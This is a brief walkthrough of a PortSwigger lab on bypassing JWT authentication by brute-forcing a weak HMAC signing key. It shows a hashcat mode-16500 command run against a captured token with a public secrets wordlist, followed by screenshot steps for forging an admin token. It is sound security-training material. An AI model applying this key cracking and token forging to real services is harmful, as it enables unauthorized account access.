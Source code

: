 # [Lab: JWT authentication bypass via weak signing key](https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-weak-signing-key)

## Lab

This lab uses a JWT-based mechanism for handling sessions. It uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a  [wordlist of common secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list).

To solve the lab, first brute-force the website's secret key. Once you've obtained this, use it to sign a modified session token that gives you access to the admin panel at  `/admin`, then delete the user  `carlos`.

You can log in to your own account using the following credentials:  `wiener:peter`

## Solution

download hashcat for windows:

```url
https://hashcat.net/files/hashcat-5.1.0.7z
```

download the wordlist then move to hashcat folder:

```bash
wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list 
```

bruteforce:

```bash
kali@kali:/mnt/d/Downloads/hashcat-5.1.0/hashcat-5.1.0$ ./hashcat64.exe -a 0 -m 16500 eyJraWQiOiJiNWM2MmM5ZS05YWZkLTQ0ODItODkwYy0zZTM2Y2YyNmUyOTAiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY3MzMzMTcwNH0.uogTd4jaZZ5TxcovgRcegXA2gq208kLTgXxv_Gh3DZ0 ./jwt.secrets.list
```

![bruteforce](../img/lab-3-bruteforce.png)

base64 encode secret:
![b64-encode](../img/lab-3-base64-encode.png)

add new symmetric key:
![add new symmetric key](../img/lab-3-new-symmetric-key.png)

sign and send request:
![attack](../img/lab-3-attack.png)

access to the admin panel at  `/admin`, then delete the user  `carlos`. => ok

